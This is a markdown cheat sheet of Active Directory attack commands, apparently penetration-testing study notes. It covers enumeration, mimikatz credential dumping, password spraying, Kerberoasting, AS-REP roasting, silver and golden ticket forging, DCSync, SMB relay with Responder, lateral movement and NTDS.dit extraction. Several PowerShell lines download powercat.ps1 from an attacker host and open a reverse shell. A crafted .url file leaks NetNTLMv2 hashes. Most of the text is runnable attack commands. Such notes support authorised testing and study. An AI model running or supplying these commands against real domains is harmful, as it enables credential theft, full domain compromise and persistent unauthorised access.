


### Active Directory
#### AD Enumeration -
- **Basic Enumeration**
    - `net user /domain`  → Users in the domain
	- `net user <username> /domain`  → Details about specific user in domain
	- `net group /domain`  → Groups in the domain
	- `net group "<groupname>" /domain`  → Group members in domain
- **PowerShell AD Enumeration Script**
```
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName
$LDAP = "LDAP://$PDC/$DN"
$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP) 
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry) 
$dirsearcher.FindAll() 
$dirsearcher.filter="samAccountType=805306368" 
```
- **PowerView** - Advanced PowerShell AD Enumeration Script
    - `Get-NetDomain`  → Basic info about domain
	- `Get-NetUser | select cn,samaccountname,pwdlastset,lastlogon` → List of all users in domain along with properties
	- `Get-NetGroup | select cn,member` → List of all groups in domain along with properties
	- `Get-NetComputer | select operatingsystem,dnshostname` → Enumerate Computer Objects
	- Logged on users
        - `File-LocalAdminAccess`  → checking on which computer, current user has local admin access
		- `Get-NetSession –ComputerName <hostname> -Verbose`  → Enumerate if we can find any logged in user in given `<hostname>`
		- Alternative - `.\PsLoggedon.exe \\<hostname>` → Same as above command
	- Service Principal Names (SPNs)
        - `setspn -L iis_service`  → enumerate SPNs for `iis_service` (select domain user) in current domain
		- `Get-NetUser -SPN | select samaccountname,serviceprincipalname` → List down SPNs for all users in domain
	- Object Permissions
        - `Get-ObjectAcl -Identity <object>`  -> Here we are checking who has what kind of access rights to given `<object>`
            - Useful properties -> ObjectSID (SID containing user id), ActiveDirectoryRights (Permission type), SecurityIdentifier(who have permissions on given object)
		- `Get-ObjectAcl -Identity "Management Department" | ?{$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights` → Another use case, in which we find that who all have GenericAll access to `Management Department` group.
		- `"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName` → Useful command to convert SID to Name
		- Practical Use
            - `Get-ObjectAcl -Identity "<Group-Name>" | ?{$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier` → find `SecurityIdentifier` of object who all have `GenericAll` access to `<Group-Name>`
			- Save result in local text file and transfer to target
			- `Get-Content <File-Path> | ForEach-Object {Convert-SidToName $_}`
	- Domain Shares
        - `Find-DomainShare`  -> Find shares in the domain
		- If found any `AES-256 encrypted password(GPP)`, can decrypt using →` gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"`
- **Bloodhound** - [Bloodhound Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
	- Data Collection
	    - `Kali> bloodhound-python -u '<username>' -p '<password>' -ns <IP> -d <domain> -c all` - Collect the data on AD using Windows API functions and LDAP namespace functions.
		- Alternative - SharpHound
			- `Kali> cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .`
			- Transfer `SharpHound.ps1` to target machine.
			- `PS> powershell -ep bypass`
			- `PS> . .\SharpHound.ps1`
			- `PS> Invoke-BloodHound -CollectionMethod All`- Perfom all collection methods except for local group policies
			- Transfer zip file that we get as result to local machine
	- Data Analysis
        - `sudo neo4j console`
        - `bloodhound`
			- Upload `bloodhound-python` or `SharpHound` generated files.
			- `Mark User as Owned` and `Set as Starting Node`  to `<owned-user>`
			- In `Analysis` tab, run these functionalities
	            - `Find All Domain Admins`
	            - `Find Shortest Paths to Domain Admins`
	            - `Find AS-REP Roastable Users`
	            - `Find Kerberoastable Users with most privileges`
	            - `Find Principals with DCSync Rights`
	            - `Find Dangerous Privileges for Domain Users Groups`
	            - `Shortest Paths From Owned Principals`
	            - `Shortest Paths to Domain Admins from Owned principals`
            - Search for `<target-user>` → Right click node and click `Shortest Paths to Here from Owned`
            - In `Node Info` tab, for `<owned-user>` → Some of records have a play button that gives us more information about relationships
#### AD Attack
- **NTLM Authentication** -

- **Kerberos Authentication** -

- **Cached AD Credentials** - mimikatz
    - `mimikatz> privilege::debug` - engage the `SeDebugPrivilege` privilege, which will allow us to interact with a process owned by another account
	- `mimikatz> token::elevate` - elevate your permissions
	- `mimikatz> sekurlsa::logonpasswords` - dump the credentials of all logged-on users
	- `mimikatz> sekurlsa::tickets` - dump kerberos tickets from memory (Group 0 (TGS) and Group 2 (TGT))
	- lsass is where mimikatz post plaintext passwords.
- **Password Attack**
    - Too many failed logins may block the account for further attacks and possibly alert system administrators, so instead attacker need to cautiously plan brute force attack.
		- `net accounts` → Check fields like Lockout threshold, Lockout duration, Lockout observation window
		- Alternative - `crackmapexec smb <IP> --pass-pol` - Password Policy
		- Due to such policies, the attack like compiling a short list of very common passwords and leveraging it against a massive amount of users i.e. password spraying is considered suitable.
	- Different Ways of password spraying -
        - `.\Spray-Passwords.ps1 -Pass <password> -Admin`
		- `crackmapexec smb <IP> -u <user-file> -p '<password>' -d <domain> --continue-on-success`
		- `.\kerbrute_windows_amd64.exe passwordspray -d <domain> <user-file> "<password>"`
- **AS-REP Roasting** → For all when got initial foothold
	- Enumeration AS-REP Roastable
	    - `PS> Get-DomainUser –PreauthNotRequired` → Identify users with enabled AD user account option `Do not require Kerberos preauthentication`.
    - AS-REP Roasting -
		- `Kali> impacket-GetNPUsers -dc-ip <IP> -request -outputfile hashes.asreproast <domain>/<username>` → Password: `<password>` → Try to find domain user with above option enabled, if found any will store AS-REP message in outputfile that might contain password hash of vulnerable user.
		- Alternative - `PS> .\Rubeus.exe asreproast /nowrap`
        - `Kali> hashcat --help | grep 'AS-REP'` → `18200 | Kerberos 5, etype 23, AS-REP`
    - Username Enumeration
		- `Kali> impacket-GetNPUsers -dc-ip <IP> -no-pass -usersfile <username-file> <domain>/` → For existing user gives different message, while for non-existing some error or exception.
	- Brute Force
        - `Kali> netexec ldap <IP> -u 'username' -p 'password' --kdcHost <IP> --asreproast output.txt`
- **Kerberoasting** → For all when got initial foothold
    - While requesting service ticket from DC, no checks are performed to confirm whether user has any permissions to access service hosted by SPN. So, if we know SPN, we can request service ticket for it on behalf of user account with TGT. For this we should have our TGT.
	- If we are able to request the service ticket and decrypt it by SPN's password hash using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as Kerberoasting.
	- Kerberoasting
        - `Kali> sudo impacket-GetUserSPNs -request -dc-ip <IP> <domain>/<username>` → Password: `<password>` → This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs.
        - Alternative - `PS> .\Rubeus.exe kerberoast /domain:<domain> /dc:<IP> /creduser:<username> /credpassword:<password> /nowrap /outfile:hashes.kerberoast`
        - `Kali> hashcat --help | grep 'TGS-REP'` → `13100 | Kerberos 5, etype 23, TGS-REP`
	- Brute Force - 
		- `netexec ldap <IP> -u 'username' -p 'password' --kdcHost <IP> --kerberoast output.txt`
- **Silver Tickets** → Only when we got SPN hash password for service on target machine (we could get this hash from mimikatz or Kerberoasting that returns service user account hash (only possible with Rubeus))
    - If we have service account password hash, we can forge our own service ticket to access target resource with any permission we desire (even if not group member). This custom created ticket is silver ticket.
	- SPN password hash
        - `Mimikatz> privilege::debug`
		- `Mimikatz> sekurlsa::logonpasswords`
            - `iis_service:4d28cf5252d39971419580a51484ca09`
			- Can also get domain SID here  → `S-1-5-21-1987370270-658905905-1781884369-1109` (just remove last 4 digit of SID)
	- Domain SID
		- `whoami /user` → `S-1-5-21-1987370270-658905905-1781884369-1105` (Remove last 4 digit of SID)
	- Target SPN
		- HTTP SPN resource
	- Silver Ticket
        - `Mimikatz> kerberos::golden /domain:corp.com /user:jeffadmin /sid:S-1-5-21-1987370270-658905905-1781884369 /service:http /target:web04.corp.com  /rc4:4d28cf5252d39971419580a51484ca09 /ptt` → mimikatz will set appropriate group membership permissions. After creating ticket, jeffadmin will appear, to IIS application on target system, to be local administrator and member of several high-privilege groups including Domain Admins, even if he isn't.
		- Alternative
            - `impacket-ticketer -domain 'corp.com' -spn 'http' -domain-sid 'S-1-5-21-1987370270-658905905-1781884369' -nthash '4d28cf5252d39971419580a51484ca09' -dc-ip web04.corp.com jeffadmin`
        - `PS> klist` → Ticket list will contain new TGS ticket.
- **Domain Controller Synchronization (DCSync attack)** → For all when got initial foothold
    - Usually there are more than one DC in production environment. One DC may request an update for a specific object on another DC.
	- If we attempt to issue a rogue update request to DC from user with certain rights it will succeed. Following are rights requirement for user -
        - User needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights
		- User should be members of the Domain Admins, Enterprise Admins, and Administrators groups. By default above mentioned rights are assigned to member of these groups. (This is vital)
	- `Mimikatz> lsadump::dcsync /user:<domain>\<target-user>` → Currently we are logged in as jeffadmin who is member of Domain Admins groups, so have necessary rights. This command is requesting credentials for domain user dave.
	- Alternative - `Kali> impacket-secretsdump -just-dc-user <target-user> <domain>/<username>:<password> <IP>`
- **Get Service Ticket for Administrator or any other user**
    - `impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :cb5fedffc634c46f85b73f1e63e9df28 -impersonate administrator intelligence.htb/svc_int`
        - Options
            - `dc-ip 10.10.10.248`
			- `-spn www/dc.intelligence.htb` - the SPN. To get the SPN, that’s in the Node Info -> Node Properties section for the svc_int  user in Bloodhound, check Allowed to delegate
			- `-hashes :5e47bac787e5e1970cf9acdb5b316239` - the NTLM I collected earlier
			- `-impersonate administrator` - the user I want a ticket for
			- `intelligence.htb/svc_int` - the account I’m running

	- Ticket is saved in `administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache`
	- `Kali> KRB5CCNAME=administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache impacket-wmiexec -k -no-pass administrator@dc.intelligence.htb`
        - I’ll set the `KRB5CCNAME` environment variable to point to the ticket file I want to use.
- **SMB Relay Attack** → NTLMRelayx with LLMNR/NBT-NS Responder
	- Reference - [Link 1](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/), [Link 2](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-capture/)
	- NTLMRelayX - For every connection received, this module will try to relay that connection to specified target(s) system or the original client.
    - Technique 1
	    - Requirement - Local Administrator on Target Server (need to have access to SAM)
        - Objective - Dump SAM Database
        - Steps -
	        - Server
	            - Edit `/etc/responder/Responder.conf` → Change value of `SMB` and `HTTP` to Off

	            - `Kali> sudo responder -I tun0 -dw -v`

	            - `Kali> sudo impacket-ntlmrelayx -tf <ip-file> -smb2support` 

	        - Client
		        - Try to access a non-existing share on target machine → My Computer search bar → `\\<Attacker-IP>\nonexisting`
		        - Alternative -> `PS> \\<Attacker-IP>\nonexisting`
                - An Event occured get caught on responder. Responder will capture this event, pass it to ntlmrelayx, which will relay the credentials for local admin account on target machine from SAM.
    - Technique 2
	    - Also, if we have write permission on smb share, we can upload file to it and then might get some event on responder
        - `Kali> sudo responder –I tun0 -v`
        - Create file - `offsec.url` - Enumerate active user (%USERNAME% - gives current username)
		```
		[InternetShortcut]
		URL=anything
		WorkingDirectory=anything
		IconFile=\\<Responder-IP>\%USERNAME%.icon
		IconIndex=1
		```
		- `smb> put offsec.url`
        - An Event occurs on responder. Responder will capture this event and give us NetNTLMv2 hash credentials.

    - Other SMB Relay Exploit
	    - Start Interactive Shell
		    - `sudo impacket-ntlmrelayx –tf <IP> –smb2support -i` → This might start interactive shell of target machine on 127.0.0.1:11000 (as given)
		    - `nc 127.0.0.1 11000` → might be able to access SMB Shares with Administrator’s privilege
		- Execute Command
			- `sudo impacket-ntlmrelayx –tf <IP> –smb2support –c "whoami"`
	- NetNTLMv2 Password Cracking
	    - `hashcat -h | grep -i "netntlm"` → `5600 | NetNTLMv2`
        - `hashcat -m 5600 <hash-file> <password-wordlist>`
#### AD Lateral Movement
- Objective here is to gain access to high-value targets with password hash and kerberos ticket obtained earlier, without need of cracking them.
- **WMI**
	- Requirement – Credentials of member of Administrators local group, which can also be domain user.
	- It communicates through port 135.
	- `PS> wmic /node:<IP> /user:<username> /password:<password> process call create "<command>"`
	- For getting reverse shell,
		- Payload -> `IEX(New-Object System.Net.WebClient).DownloadString('http://<Attacker-IP>/powercat.ps1'); powercat -c <IP> -p 4444 -e powershell`
		- Base64 encode this payload with Character set as UTF-16LE with this tool - [Base64encoder](https://www.base64encode.org/)
		- `PS> wmic /node:<IP> /user:<username> /password:<password> process call create "powershell -nop -w hidden –e <base64-encoded-payload>"`
	- Alternative - powershell script
```
// Prepare Credentials in proper format
$username = '<username>'; 
$password = '<password>'; 
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString; 
// Create and Invoke New Session
$options = New-CimSessionOption -Protocol DCOM  
$session = New-Cimsession -ComputerName <IP> -Credential $credential - SessionOption $options  
$command = 'powershell -nop -w hidden –e <base64-encoded-payload>'; 
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments
```
- **WinRM**
    - Requirement – Credentials of member of Administrators local group, which can also be domain user.
	- It communicates through port 5985(HTTP) and 5986(HTTPS).
	- `Kali> evil-winrm -i <IP> -u <username> -p <password>`
	- Alternative - `PS> winrs -r:<IP> -u:<username> -p:<password> "<command>"`
	- Alternative - Powershell script
	```
	// Prepare Credentials in proper format
	$username = '<username>'; 
	$password = '<password>'; 
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
	$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
	// Create and Invoke New Session
	New-PSSession -ComputerName <IP> -Credential $credential 
	Enter-PSSession 1
	```
	- Another alternative
	```
	// Prepare Credentials in proper format
	$password = '<password>'; 
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
	$credential = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $secureString);
	// Create and Invoke New Session
	$session = New-PSSession -ComputerName <IP> -Credential $credential 
	Invoke-Command -Session $session -ScriptBlock {IEX(New-Object System.Net.WebClient).DownloadString('http://<Attacker-IP>/powercat.ps1'); powercat -c <Attacker-IP> -p 4444 -e powershell}
	Disconnect-PSSession -Session $session
	Remove-PSSession -Session $session
	```
- **PsExec**
    - Requirements - This method is only valid if we have credentials of member of Local Administrator Group. In addition, the ADMIN$ share must be writable and File and Print Sharing has to be turned on. Previously mentioned settings are default configurations for member of Local Administrator Group.
	- It communicates via smb ports - 139, 445.
	- `Kali> impacket-psexec <domain>/<username>:<password>@<Target-IP>`
	- Alternative - `PS> ./PsExec64.exe -i \\<IP> -u <domain>/<username> -p <password> <command>`
- **Pass the Hash (PtH)**
    - Requirement - Credentials of member of Administrators local group (writable ADMIN$ and File and Printer Sharing turned on).
	- It communicates via smb ports - 139, 445.
	- `Kali> impacket-psexec -hashes 00000000000000000000000000000000:<NTLM-Hash> <username>@<Target-IP>`
	- `Kali> impacket-wmiexec -hashes 00000000000000000000000000000000:<NTLM-Hash> <username>@<Target-IP>`
- **Overpass the Hash**
    - Requirements - Credentials of member of Administrators local group.
	- With overpass the hash, we can “over” abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS). The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication.
	- Get NTLM Hash of Administrators group user
		- `Mimikatz> privilege::debug`
		- `Mimikatz> sekurlsa::logonpasswords` → get user’s NTLM Hash
	- `Mimikatz> sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm-hash> /run:powershell`
        - `/run` : process to create
	- `PS> klist`  -> Check if TGT for `<username>` is created
	- `PS> net use \\files04` → On accessing any host will create suitable TGS Ticket
	- `PS> .\PsExec.exe \\files04 cmd` → Can also get terminal for any host
- **Pass the Ticket**
    - Requirement – Some user whose TGS is in memory should have access to required resource.
	- We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.
	- The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.
	- In this scenario, `dave` user has privileged access to backup folder located on `WEB04`, where our logged in user `jen` doesn't.
        - `Mimikatz> privilege::debug`
		- `Mimikatz> sekurlsa::tickets /export`
            - dave has TGT, and on export will create `*.kirbi` files (TGS ticket) for all accessible resources
		- `Mimikatz> kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi` 
			- Pick any TGS ticket in `dave@cifs-web04.kirbi` format and inject in current user session i.e. `jen`
		- `PS> klist`  -> Check if ticket is imported
		- `PS> ls \\web04\backup` -> Accessible now
- **DCOM (Distributed Component Object Model)**
    - Requirements – Local administrator access to call the DCOM Service Control Manager, which is essentially an API.
	- This method allows execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.
	- Powershell script
	```
	$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP>")) 
	$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop –w hidden –e <base64-encoded-revshell-payload>","7")
	```
#### AD Persistence
- **Golden Ticket**
	- Requirements - krbtgt password hash
	- If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.
	- While Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets give us permission to access the entire domain’s resources. Once TGT is created, the owner user, even non-privileged user, can be stated as member of Domain Admins group.
	- SPN password hash
        - `Mimikatz> privilege::debug`
		- `Mimikatz> lsadump::lsa /patch`
            - `iis_krbtgt:4d28cf5252d39971419580a51484ca09`
			- Can also get domain SID here  → `S-1-5-21-1987370270-658905905-1781884369`
	- Domain SID
        - `whoami /user` → `S-1-5-21-1987370270-658905905-1781884369`
	- Golden Ticket
        - `Mimikatz> kerberos::purge`  → current session tickets purged
		- `Mimikatz> kerberos::golden /domain:<domain> /user:<username> /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:4d28cf5252d39971419580a51484ca09 /ptt`
            - `/ptt` -> inject the forged ticket into the memory of the machine we execute the command on.
			- Our user ID is set to 500 by default, which is the RID of the built-in administrator for the domain, while the values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group.
        - `PS> klist` → Ticket list will contain new TGT ticket.
        - `Mimikatz> misc::cmd`  → Launched new command prompt as `<username>` stated as part of Domain Admins group.
        - `PS> .\PsExec64.exe \\DC1 cmd.exe` -> Alternative to launch command prompt
- **Shadow Copies**
    - If we get access to DC, get a Shadow Copy to get credentials of all users in all systems
	- A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.
	- As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. Once we’ve obtained a copy of said database, we can extract every user credential offline on our local Kali machine.
	- Connect to DC as domain admin user
	- `PS> vshadow.exe -nw -p C:` → Get Shadow copy device name something like `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy` from output of this command
		- Alternative - vssadmin create shadow /for=C: (Pre-installed)
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy`
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy`
	- `PS>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit`
	- `PS> reg.exe save hklm\system c:\system.hive` → `system.hive` from Windows registry is password key for `ntds.dit` database
	- `Kali> impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL` → Get NTLM hashes and Kerberos keys for every AD user

	- `Kali> impacket-secretsdump -ntds ntds.dit -system system.hive -history LOCAL`
		- `-history` shows along with current hashes, older hashes as well. Those are stored, so that repetition of setting same hash can be provided.
	- Alternative for this is that we can use mimikatz to dump password of every user using `DCSync attack`.
	- Alternative Method
		- Backup SAM and SYSTEM hashes
	        - `reg save hklm\system C:\system.hive`
            - `reg save hklm\sam C:\sam.hive`
        - Transfer system.hive and sam.hive to attacker’s machine
        - `impacket-secretsdump -ntds sam.hive -system system.hive LOCAL` → Get Administrator user hash
    - We can also execute command - `Get-ChildItem -Path C:\ -Include sam,system,ntds.dit -File -Recurse -ErrorAction SilentlyContinue` - to identify locations of these files.
#### Some Awesome References
- [PayloadsAllTheThings AD](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-enumerate/)
